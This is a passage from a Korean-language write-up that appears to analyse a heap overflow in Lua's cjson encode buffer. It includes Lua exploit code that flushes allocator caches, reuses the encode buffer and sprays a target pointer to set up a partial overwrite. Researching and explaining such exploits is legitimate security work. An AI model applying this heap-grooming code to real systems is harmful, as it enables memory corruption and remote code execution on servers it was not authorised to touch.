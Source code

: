 `fakes_s` 에는 Fake Table을 구성하고 `fakes_t`에는 일반적인 `Table`을 구성합니다. 이를 번갈아 Spary를 진행하면 `fakes_t[i]`에 저장된 `Table`의 `array` 주소가 0xXXXX80일 때 0xXXXX22의 주소에 Fake Table이 형성됩니다. 이러한 조건에 맞는 `fakes_t[i]`를 `target_ptr`에 저장하고 Partial Overwrite의 타겟으로 삼습니다.

이후 아래와 같이 `target_ptr`을 Spary하여 Partial Overwrite 성공 확률을 높이는데 사용할 `spary_holder`를 초기화하고 이후 할당되는 힙 청크가 연속적인 주소를 갖도록 다양한 크기로 여러 번 할당을 반복하여 메모리 할당자의 free list를 비웁니다.

Spray된 데이터보다 Overflow가 발생하는 encode 버퍼가 더 낮은 주소에 위치하도록 `cjson.encode_keep_buffer('on')`을 호출하여 할당된 버퍼가 재사용되게 만들고 Corruption으로 인한 크래시를 방지하기 위해 대량의 dummy chunk를 할당한 다음 `target_ptr`을 Spray합니다.

```lua
   local spray_holder = {}
   for i=1,128 do
      spray_holder[i] = {}
   end
   -- error(("spray_holder: %s"):format(tostring(spray_holder)))

   --
   -- Flush allocator caches
   --
   for i=1,0x42 do
      for j=1,200 do -- To increase reliability, make more iterations.
         refs[refs_i] = string.sub(string_source, 8*(j-1)+1, 8*(j-1)+1 + math.max(0, i*0x10 - string_overhead) - 1)
         refs_i = refs_i + 1
      end
   end
   for i = 1, 256 do
      refs[refs_i] = { string_source:byte(1, 0x1000 - 1 - 5) }
      refs_i = refs_i + 1
   end
   
   cjson.encode_keep_buffer('on')

   local top = string.sub(string_source, 0, 0x4000 - string_overhead - 1)
   local result = cjson.encode(top) 
   
   for i = 1, n_expand do
      heap_expand[i] = { string_source:byte(1, 0x1000 - 1 - 5) }
   end

   for i=1,#spray_holder do
      spray_holder[i][1] = target_ptr
   end
```

Spary가 끝난 시점에서의 힙은 아래와 같은 상태가 됩니다
